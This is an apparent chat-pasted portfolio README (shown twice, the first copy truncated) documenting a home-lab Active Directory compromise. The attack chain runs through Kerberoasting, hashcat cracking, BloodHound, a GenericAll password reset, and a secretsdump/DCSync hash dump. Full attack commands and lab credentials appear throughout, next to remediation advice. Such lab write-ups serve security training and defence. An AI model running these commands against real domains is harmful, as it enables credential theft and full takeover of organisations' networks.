









[5:32 PM, 5/14/2026] Shi Sho Go Kai: # 🏴‍☠️ Active Directory Attack Lab — Full Domain Compromise

### Kerberoasting • ACL Abuse • Lateral Movement • DCSync • Full DC Hash Dump

---

## 📌 Overview

This project demonstrates a *complete Active Directory attack chain* from an initial low-privilege foothold to full domain compromise in a self-built home lab environment. Starting from a Kerberoastable service account, the assessment progresses through offline credential cracking, BloodHound enumeration, ACL-based privilege escalation, lateral movement, and a full Domain Controller secrets dump via secretsdump.

*Every phase in this report resulted in confirmed exploitation — no simulated results.*

---

## 🧱 Lab Environment

| Component | Details |
|---|---|
| Domain Controller | Windows Server 2…
[5:34 PM, 5/14/2026] Shi Sho Go Kai: # 🏴‍☠️ Active Directory Attack Lab — Full Domain Compromise

### Kerberoasting • ACL Abuse • Lateral Movement • DCSync • Full DC Hash Dump

---

## 📌 Overview

This project demonstrates a *complete Active Directory attack chain* from an initial low-privilege foothold to full domain compromise in a self-built home lab environment. Starting from a Kerberoastable service account, the assessment progresses through offline credential cracking, BloodHound enumeration, ACL-based privilege escalation, lateral movement, and a full Domain Controller secrets dump via secretsdump.

*Every phase in this report resulted in confirmed exploitation — no simulated results.*

---

## 🧱 Lab Environment

| Component | Details |
|---|---|
| Domain Controller | Windows Server 2022 — DC01.ADLAB.LOCAL |
| Client Machine | Windows 10 — WIN10-CLIENT.ADLAB.LOCAL |
| Attacker Machine | Kali Linux |
| Domain | ADLAB.LOCAL |
| DC IP | 192.168.191.10 |
| Virtualization | VMware Workstation |

---

## 🛠️ Tools Used

| Tool | Purpose |
|---|---|
| Impacket — GetUserSPNs.py | SPN enumeration and Kerberos TGS-REP ticket extraction |
| Hashcat (mode 13100) | Offline Kerberos hash cracking |
| bloodhound-python | AD data collection and relationship mapping |
| BloodHound GUI | Attack path visualization |
| CrackMapExec | SMB authentication testing, share enumeration |
| net rpc | Forced password reset via GenericAll ACL abuse |
| Impacket — secretsdump.py | Full DC credential and hash extraction |

---

## ⚔️ Attack Chain

[Kerberoasting]
      ↓
[Hashcat — Cracked in 8 seconds]
      ↓
[BloodHound — GenericAll + DCSync discovered]
      ↓
[ACL Abuse — Forced password reset on HELPDESK]
      ↓
[Lateral Movement — Authenticated as HELPDESK]
      ↓
[Domain Admin — Pwn3d on DC]
      ↓
[secretsdump — Full DC hash dump + NTDS.DIT]

---

## 🔹 Phase 1 — SPN Enumeration & Kerberoasting

Service Principal Names were enumerated to identify Kerberoastable accounts. The Kali clock was synced with the DC first to resolve Kerberos clock skew (KRB_AP_ERR_SKEW), then TGS-REP hashes were extracted.

*Commands:*
bash
sudo ntpdate 192.168.191.10

python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py \
  adlab.local/Administrator:'<password>' \
  -dc-ip 192.168.191.10 \
  -request -outputfile kerberoast.txt

*SPNs Identified:*

| SPN | Account | Password Last Set |
|---|---|---|
| MSSQLSvc/sql.adlab.local:1433 | sqlsvc | 2026-05-11 |
| MSSQL/adlab.local | svc_sql | 2026-05-10 |

*Result:* TGS-REP hashes ($krb5tgs$23$) extracted for both accounts.

> *Why this matters:* Any authenticated domain user can request Kerberos service tickets for SPN-registered accounts. The tickets are encrypted with the service account's password hash and can be cracked entirely offline — no lockout, no alerting.

---

## 🔹 Phase 2 — Hash File Verification

The extracted hash file was verified to confirm correct $krb5tgs$23$ format for both accounts before cracking.

bash
cat kerberoast.txt

---

## 🔹 Phase 3 — Offline Hash Cracking (Hashcat)

Extracted hashes were cracked offline using Hashcat mode 13100 against rockyou.txt.

*Command:*
bash
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt --force

*Results:*

| Metric | Value |
|---|---|
| Status | *Cracked* |
| Hashes Recovered | *2/2 (100%)* |
| Cracked Password | Password123 |
| Time to Crack | *8 seconds* |
| Mode | Kerberos 5, etype 23, TGS-REP |

> *Why this matters:* Both service account hashes cracked in 8 seconds with a basic wordlist. This demonstrates the real-world risk of Kerberoastable accounts with weak passwords — entirely offline, no detection.

---

## 🔹 Phase 4 — BloodHound Enumeration & Attack Path Discovery

With valid credentials, BloodHound collected full AD relationship data and identified two critical attack paths.

*Collection:*
bash
bloodhound-python -u sqlsvc -p 'Password123' \
  -d adlab.local -ns 192.168.191.10 -c All --zip

*Collected:* 13 users | 52 groups | 2 computers | 2 GPOs

---

### Finding 1 — GenericAll ACL: SQLSVC → HELPDESK → Domain Admins

BloodHound identified that SQLSVC holds *GenericAll* over HELPDESK@ADLAB.LOCAL, which is a *MemberOf* DOMAIN ADMINS@ADLAB.LOCAL.

Attack path: compromise sqlsvc → abuse GenericAll → own helpdesk → Domain Admin.

---

### Finding 2 — DCSync Rights Granted to Multiple Principals

BloodHound revealed multiple *DCSync* (DS-Replication-Get-Changes) and *AllExtendedRights* permissions granted to principals on the ADLAB.LOCAL domain object — enabling domain replication abuse beyond the primary kill chain.

> *Why this matters:* DCSync rights allow any principal holding them to impersonate a Domain Controller and request password replication — extracting all domain hashes without touching the DC directly.

---

## 🔹 Phase 5 — ACL Abuse (GenericAll → Forced Password Reset)

The GenericAll permission held by SQLSVC over HELPDESK was abused to forcibly reset the helpdesk account's password using only the cracked sqlsvc credentials.

*Credential Verification:*
bash
crackmapexec smb 192.168.191.10 -u sqlsvc -p 'Password123' -d adlab.local
# [+] adlab.local\sqlsvc:Password123

*Forced Password Reset:*
bash
net rpc password helpdesk 'Hacked123!' \
  -U adlab.local/sqlsvc%Password123 \
  -S 192.168.191.10

*Verification:*
bash
crackmapexec smb 192.168.191.10 -u helpdesk -p 'Hacked123!' -d adlab.local
# [+] adlab.local\helpdesk:Hacked123!

> *Why this matters:* GenericAll grants full control over a target object — including forced password resets — with no elevated privilege required. This is one of the most commonly misconfigured permissions in enterprise AD environments.

---

## 🔹 Phase 6 — Lateral Movement & Domain Admin Confirmation

With helpdesk's credentials, full administrative share access to the DC was confirmed.

*Command:*
bash
crackmapexec smb 192.168.191.10 -u helpdesk -p 'Hacked123!' -d adlab.local --shares

*Result:*

[+] adlab.local\helpdesk:Hacked123! (Pwn3d!)

Share       Permissions    Remark
ADMIN$      READ, WRITE    Remote Admin
C$          READ, WRITE    Default share
IPC$        READ           Remote IPC
NETLOGON    READ, WRITE    Logon server
SYSVOL      READ           Logon server

*(Pwn3d!) = Full administrative access to the Domain Controller confirmed.*

---

## 🔹 Phase 7 — Full DC Hash Dump (secretsdump)

With Domain Admin access confirmed, secretsdump extracted all credential material from the DC via both SAM/LSA and DRSUAPI (DCSync) methods.

*Command:*
bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py \
  adlab.local/helpdesk:'Hacked123!'@192.168.191.10

*SAM + LSA + Machine Account Secrets:*

*NTDS.DIT — Full Domain Credential Dump via DRSUAPI:*

*Extracted:*

| Credential Material | Details |
|---|---|
| Administrator NTLM hash | ✅ Extracted — Pass-the-Hash ready |
| Guest / DefaultAccount hashes | ✅ Extracted |
| DC Machine Account (AES256/AES128/DES/NTLM) | ✅ Extracted |
| LSA Secrets | ✅ Extracted |
| DPAPI Machine + User Keys | ✅ Extracted |
| NL$KM (cached credential key) | ✅ Extracted |
| NTDS.DIT — All domain account hashes | ✅ Extracted via DRSUAPI |

> *Why this matters:* Dumping NTDS.DIT via DCSync extracts every password hash in the Active Directory database. The Administrator NTLM hash can be used directly in Pass-the-Hash attacks — no cracking required — granting persistent access to the entire domain.

---

## 🧠 Findings Summary

| # | Finding | Severity | Impact |
|---|---|---|---|
| 1 | Kerberoastable service accounts (sqlsvc, svc_sql) | HIGH | Offline credential cracking, domain foothold |
| 2 | Weak service account password — cracked in 8 seconds | CRITICAL | Valid domain authentication immediately available |
| 3 | GenericAll ACL on HELPDESK granted to SQLSVC | CRITICAL | Forced password reset, lateral movement to DA path |
| 4 | HELPDESK member of Domain Admins | CRITICAL | Full domain administrative access |
| 5 | DCSync rights on multiple non-privileged principals | CRITICAL | Domain replication abuse, credential harvesting |
| 6 | Full NTDS.DIT dump — all domain hashes extracted | CRITICAL | Persistent access, complete domain compromise |

---

## 🔒 Remediation Recommendations

| Finding | Recommendation |
|---|---|
| Kerberoastable accounts | Use Managed Service Accounts (MSAs) or Group MSAs. Enforce AES-only Kerberos encryption. |
| Weak passwords | Enforce 20+ character passwords for service accounts. Use a PAM solution for rotation. |
| GenericAll ACL abuse | Audit ACLs with BloodHound regularly. Remove unnecessary GenericAll/Write delegations immediately. |
| Over-privileged accounts | Apply least privilege. Service accounts must never be Domain Admins. |
| DCSync rights | Restrict DS-Replication-Get-Changes rights to Domain Controllers only. Alert on unexpected replication. |
| DC credential exposure | Enable Credential Guard. Add high-value accounts to Protected Users group. Deploy Advanced Audit Policy. |

---

## 📁 Repository Structure

AD-Lab-Security-Assessment/
├── README.md
└── screenshots/
    ├── 01_spn_enumeration.png
    ├── 02_kerberoast_hashes.png
    ├── 03_hashcat_cracked.png
    ├── 04_bloodhound_attack_path.png
    ├── 05_bloodhound_dcsync_rights.png
    ├── 06_acl_abuse_helpdesk_auth.png
    ├── 07_crackmapexec_pwnd.png
    ├── 08_secretsdump_sam_lsa.png
    └── 09_secretsdump_ntds.png

---

## ⚠️ Legal Disclaimer

This project was conducted entirely within a self-built, isolated home lab environment for educational and portfolio purposes only. All systems targeted are owned and controlled by me. Unauthorized access to computer systems is illegal and unethical. This documentation exists solely for cybersecurity learning and career development.

---

## 📚 References

- [Impacket Toolkit — Fortra](https://github.com/fortra/impacket)
- [BloodHound — SpecterOps](https://github.com/BloodHoundAD/BloodHound)
- [The Hacker Recipes — Kerberoasting](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast)
- [The Hacker Recipes — ACL Abuse (DACL)](https://www.thehacker.recipes/ad/movement/dacl)
- [CrackMapExec Wiki](https://github.com/byt3bl33d3r/CrackMapExec/wiki)
- [Microsoft — Securing Active Directory](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/best-practices-for-securing-active-directory)
